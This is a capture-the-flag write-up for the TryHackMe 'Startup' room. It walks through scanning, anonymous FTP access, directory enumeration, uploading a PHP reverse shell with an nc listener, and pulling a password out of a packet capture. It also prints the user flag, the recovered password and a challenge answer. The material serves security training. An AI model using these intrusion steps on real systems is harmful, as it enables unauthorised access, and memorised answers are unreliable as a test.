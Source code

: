 # [Startup](https://tryhackme.com/room/startup)

> Abuse traditional vulnerabilities via untraditional means.

## Scanning

first, we scan with nmap

```
nmap -A -T4 10.10.86.86
```

![image](https://user-images.githubusercontent.com/90561566/202391255-8dc00608-6faf-48b9-9685-4a30d1db64a7.png)

we can see 3 open ports are ftp (21), ssh (22) and http (80)

the most notable is ftp

![image](https://user-images.githubusercontent.com/90561566/202391799-6ad13366-75a7-4ae3-9cb2-f0ba4fc3ba61.png)

## FTP

```
ftp 10.10.86.86
Name (10.10.86.86:admin): anonymous
Password:
```

![image](https://user-images.githubusercontent.com/90561566/202393023-01179ee1-19c6-41de-8c15-8ecf2c31276c.png)

you maybe get an error like this

![image](https://user-images.githubusercontent.com/90561566/202394018-c2ac2dfa-adbc-4a7f-88e0-bc2badaa43b9.png)

the solution is `pass` mode on

![image](https://user-images.githubusercontent.com/90561566/202394119-34cb6715-5de9-45a8-b055-3b79cb627a68.png)

download all files to local and exit

```
get .test.log
get ftp
get important.jpg
get notice.txt
```

nothing here

![image](https://user-images.githubusercontent.com/90561566/202395916-1b4c32e9-2d9b-4ec1-a7d6-1f758dbb431c.png)

important.jpg

![image](https://user-images.githubusercontent.com/90561566/202396326-be353f36-eda8-4844-8101-532a4d1c2f16.png)

## HTTP

quick look at website

![image](https://user-images.githubusercontent.com/90561566/202397127-9841a316-e714-4bf0-81b8-a795da27cb3f.png)

nothing much here

![image](https://user-images.githubusercontent.com/90561566/202397328-5d64db2d-6ff3-48c6-a4cb-481a01c75e58.png)

## Enumeration

scan directories with gobuster

```
gobuster dir -u http://10.10.86.86/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/202398516-22378b17-b66c-44be-8805-d112a4a1e4f3.png)

go to /files

![image](https://user-images.githubusercontent.com/90561566/202399145-c8b89bf2-d1a9-4f4a-bfb0-fd3a6410e5d6.png)

it's the interface of ftp

## Exploitation

prepare a web shell and change to your ip

```
cp /usr/share/webshells/php/php-reverse-shell.php reverse.php
vi reverse.php
```

let's go back to fpt and upload our shell

```
cd ftp
put reverse.php
```

![image](https://user-images.githubusercontent.com/90561566/202400688-dac15d49-fa39-445e-8be5-076656d4642c.png)

now we can see our shell here

![image](https://user-images.githubusercontent.com/90561566/202400761-176a6a53-185d-48b3-9fd8-a9359dd4cb08.png)

create listener and open file on browser

```
nc -vlnp 1234
```

![image](https://user-images.githubusercontent.com/90561566/202403261-dc874bcd-546b-431a-9da8-364ccfa5054a.png)

and the secret spicy soup recipe is `love`

![image](https://user-images.githubusercontent.com/90561566/202403567-a10149c0-fd42-41fa-923f-f4856d35d437.png)

let's see what in 2 suspicious folders here

![image](https://user-images.githubusercontent.com/90561566/202404109-b7fc3f73-c656-4fb9-adb5-9037b217f2b1.png)

hmm, a pcapng file, i will take it back to research

```
cp /incidents/suspicious.pcapng /var/www/html/files/ftp/
```

![image](https://user-images.githubusercontent.com/90561566/202405450-17aa3512-4d2e-4c2e-90f1-f0a7f801dd0e.png)

## Cracking

open captured file with wireshark

```
wireshark -r ./Downloads/suspicious.pcapng 
```

![image](https://user-images.githubusercontent.com/90561566/202406829-5de606d7-538a-43a4-9617-61d754207602.png)

our concern should be http protocol, i see someone has request a web shell in the past

![image](https://user-images.githubusercontent.com/90561566/202407904-4b2186e3-567b-48fa-bf75-39a635033ebb.png)

let's take a look at tcp traffic 4444 dump it all out to plain text

![image](https://user-images.githubusercontent.com/90561566/202410068-a0519b4a-9b8d-42cf-9460-3c5574d8dd68.png)

after lookup, i can see here is the password for lennie

![image](https://user-images.githubusercontent.com/90561566/202412311-520555ec-70b3-4438-8657-bacbe2c1416d.png)

login with `c4ntg3t3n0ughsp1c3`

![image](https://user-images.githubusercontent.com/90561566/202412520-ce00699b-cca7-4cd4-9f3a-74a7996e6aa5.png)

flag here

![image](https://user-images.githubusercontent.com/90561566/202412792-71e3fea3-c7e4-49ed-91fb-37422a35e690.png)

| Flag | user.txt |
| --- | --- |
| Answer | THM{03ce3d619b80ccbfb3b7fc81e46c0e79} |

## Privilege Escalation

there is a scripts folder

![image](https://user-images.githubusercontent.com/90561566/202413237-9c3ac792-01fe-41c0-9663-10a8a9b6c774.png)

![image](https://user-images.githubusercontent.com/90561566/202413562-ffb230c2-1725-48a0-8eb2-20b79d12204e.png)




| Flag | root.txt |
| --- | --- |
| Answer | <flag> |
